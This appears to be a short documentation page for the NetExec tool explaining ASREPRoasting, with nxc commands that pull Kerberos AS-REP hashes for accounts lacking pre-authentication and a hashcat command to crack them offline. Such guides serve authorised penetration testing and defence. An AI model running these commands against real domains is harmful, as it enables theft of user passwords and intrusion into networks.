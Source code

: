 # ASREPRoasting

### Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required

## TIP: You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain

# Without authentication

### The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS_REQ request to the KDC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. 

#### nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt

### Using a wordlist, you can find wordlists of username here

#### nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt

### Set the password value to '' to perform the test without authentication

# With authentication

### If you have one valid credential on the domain, you can retrieve all the users and hashes where the Kerberos pre-authentication is not required

#### nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt

## TIP: Use option kdcHost when the domain name resolution fail

#### nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name

# Cracking with hashcat

### To crack hashes on the file output.txt with hashcat use the following options:

#### hashcat -m18200 output.txt wordlist

